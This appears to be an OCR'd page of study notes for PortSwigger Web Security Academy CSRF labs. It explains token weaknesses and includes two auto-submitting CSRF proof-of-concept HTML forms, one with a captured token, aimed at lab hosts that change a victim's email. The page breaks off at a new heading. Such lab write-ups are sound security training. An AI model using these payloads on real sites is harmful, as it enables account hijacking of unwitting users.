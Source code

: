 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4000a603d78041d9b8d0c000f6005c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="b&#64;a" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
### CSRF token is not tied to the user session

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

### Lab: CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

-    wiener:peter
-    carlos:montoya

In this challenge, the csrf token is single-use, and does not tied to user session. So the goal is to obtain a legit token, then put it into the exploit sever. To do that, turn on Intercept mode and capture a valid token, then drop the request. Generate a sdrf poc with the token.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4b00810450534b88275ac7001b00a5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="8EWr2hYvFNPMOfJp5pX6RZZa9ZfVaMyJ" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
### CSRF token is tied to a non-session cookie
